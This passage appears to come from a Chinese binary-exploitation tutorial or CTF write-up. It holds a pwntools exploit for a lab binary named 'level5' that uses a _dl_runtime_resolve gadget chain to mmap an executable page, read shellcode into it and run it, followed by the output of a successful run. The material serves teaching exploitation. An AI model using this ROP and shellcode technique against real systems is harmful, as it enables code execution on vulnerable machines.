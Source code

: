 ```
#   GADGET
#   0x7ffff7def235 <_dl_runtime_resolve+53>:    mov    r11,rax
#   0x7ffff7def238 <_dl_runtime_resolve+56>:    mov    r9,QWORD PTR [rsp+0x30]
#   0x7ffff7def23d <_dl_runtime_resolve+61>:    mov    r8,QWORD PTR [rsp+0x28]
#   0x7ffff7def242 <_dl_runtime_resolve+66>:    movrdi,QWORD PTR [rsp+0x20]
#   0x7ffff7def247 <_dl_runtime_resolve+71>:    movrsi,QWORD PTR [rsp+0x18]
#   0x7ffff7def24c <_dl_runtime_resolve+76>:    movrdx,QWORD PTR [rsp+0x10]
#   0x7ffff7def251 <_dl_runtime_resolve+81>:    movrcx,QWORD PTR [rsp+0x8]
#   0x7ffff7def256 <_dl_runtime_resolve+86>:    movrax,QWORD PTR [rsp]
#   0x7ffff7def25a <_dl_runtime_resolve+90>:    add    rsp,0x48
#   0x7ffff7def25e <_dl_runtime_resolve+94>:    jmp    r11  

shellcode_addr = 0xbeef0000 

#mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
payload3 =  "\x00"*136
payload3 += p64(pop_rax_ret) + p64(mmap_addr)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(34) + p64(7) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) 

#read(rdi=0, rsi=shellcode_addr, rdx=1024)
payload3 += p64(pop_rax_ret) + p64(plt_read)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(0) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0)  

payload3 += p64(shellcode_addr) 

print "\n#############sending payload3#############\n"
p.send(payload3)
sleep(1)    

#raw_input()    

p.send(shellcode+"\n")
sleep(1)    

p.interactive()

```

成功pwn后的效果如下：

```
$ python exp8.py 
[+] Started program './level5'
got_write: 0x601000
got_read: 0x601008
plt_read: 0x400440
linker_point: 0x600ff8
got_pop_rax_ret: 0x23950
off_mmap_addr: -0x9770
off_pop_rax_ret: 0xc2670

#############sending payload1#############

write_addr: 0x7f9d39d95fc0
mmap_addr: 0x7f9d39d9f730
pop_rax_ret: 0x7f9d39cd3950

#############sending payload2#############

linker_addr + 0x35: 0x7f9d3a083235

#############sending payload3#############
```